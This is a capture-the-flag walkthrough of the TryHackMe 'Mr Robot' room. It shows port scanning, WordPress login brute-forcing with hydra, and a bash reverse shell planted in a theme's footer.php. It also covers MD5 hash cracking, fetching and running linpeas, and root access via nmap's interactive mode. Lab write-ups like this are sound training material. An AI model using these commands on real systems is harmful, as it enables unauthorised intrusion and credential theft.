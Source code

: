 # Mr Robot CTF

**Room Link:** [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)





## Scanning

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (6).png" alt=""><figcaption></figcaption></figure>

### HTTP port 80

This ran for the majority of the time I was working on the box, I found the wordpress and checked robots.txt manually and the scan didn't really find anything of interest.

**Kali**

```
dirb http://$VICTIM:80 /usr/share/wordlists/dirb/big.txt
```

<figure><img src="../../.gitbook/assets/image (16) (2).png" alt=""><figcaption></figcaption></figure>

#### Key 1

<figure><img src="../../.gitbook/assets/image (7) (3).png" alt=""><figcaption></figcaption></figure>

**Downloaded fsocity.dic**

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

If you refresh the page you'll go to a wordpress site.

<figure><img src="../../.gitbook/assets/image (27) (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (6).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (24) (6).png" alt=""><figcaption></figcaption></figure>

Test to see what users exist in wordpress, if the user doesn't exist it will give an error saying the user is invalid.

<figure><img src="../../.gitbook/assets/image (26) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -L fsocity.dic -p test  $VICTIM http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10
.10.70.148%2Fwp-admin%2F&testcookie=1:Invalid username" -V -t 30    
```

<figure><img src="../../.gitbook/assets/image (9) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (2).png" alt=""><figcaption></figcaption></figure>

Because there were so many entries in fsocity.dic I tried to reduce it as much as I could by removing duplicates and passwords that I thought would be unlikely.

**Kali**

```
cat fsocity.dic | sort | uniq > new-fsocity.dic
#Remove lines with less than 4 characters
sed -r '/^.{,4}$/d' new-fsocity.dic > new-new-fsocity.dic
#Remove lines with just numbers
awk '! /^[0-9]+$/' new-new-fsocity.dic > nonums.dic 
#Remove lines with more than 11 characters
sed '/^.\{11\}./d' nonums.dic > final.txt
```



**Kali**

```
hydra -L Elliot -P fsocity.dic  $VICTIM http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F
10.10.70.148%2Fwp-admin%2F&testcookie=1:is incorrect." -V -t 30 
```

<figure><img src="../../.gitbook/assets/image (13) (8).png" alt=""><figcaption></figcaption></figure>

## Reverse Shell

### Reverse Shell Failed Attempt

**revshell.php code**

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```

**Kali**

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```



<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

Connection is made but it isn't stable.

<figure><img src="../../.gitbook/assets/image (5) (11).png" alt=""><figcaption></figcaption></figure>



### Reverse Shell&#x20;

wpscan found out that twentyfifeen is installed.

**Kali**

```
wpscan --url http://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (11) (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -vlnp 443
```

Added the same shell to footer.php which should appear on every page visited. Then I just went back to http://$VICTIM/join and it worked.

<figure><img src="../../.gitbook/assets/image (2) (1) (7).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
cd /home/robot
ls
cat password.raw-md5 
```

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt --show
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su robot
Password: abcdefghijklmnopqrstuvwxyz
```

<figure><img src="../../.gitbook/assets/image (10) (1) (8).png" alt=""><figcaption></figcaption></figure>

### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (37) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

**Victim**

```
/usr/local/bin/nmap --interactive
nmap> !sh
```

<figure><img src="../../.gitbook/assets/image (9) (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25) (5).png" alt=""><figcaption></figcaption></figure>

